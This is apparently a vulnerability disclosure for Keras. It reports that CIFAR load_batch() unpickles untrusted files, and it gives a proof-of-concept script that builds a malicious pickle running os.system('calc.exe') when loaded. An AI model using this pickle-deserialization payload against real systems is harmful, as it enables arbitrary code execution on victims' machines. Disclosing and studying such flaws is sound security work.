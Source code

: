 ## :writing_hand: Description

`Keras` is an API designed for human beings, not machines. Keras follows best practices for reducing cognitive load: it offers consistent & simple APIs, it minimizes the number of user actions required for common use cases, and it provides clear & actionable error messages. This package is vulnerable to `Arbitrary Code Execution`.

## :bug: Vulnerability

`load_batch()` is a function used for parsing `CIFAR` data by unpickling it. But the lack of restriction in input allows attacker constructed files to be unpickled.

## :male_detective: Proof of Concept

#### Installation
```bash
git clone https://github.com/keras-team/keras
cd keras/keras
```

#### Run exploit.py
```python
#!/usr/bin/env python3

import pickle
import os
from datasets import cifar

class EvilPickle(object):
    def __reduce__(self):
        return (os.system, ('calc.exe', ))

payload = pickle.dumps(EvilPickle())

with open('payload', 'wb') as f:
    f.write(payload)

cifar.load_batch('payload')
```
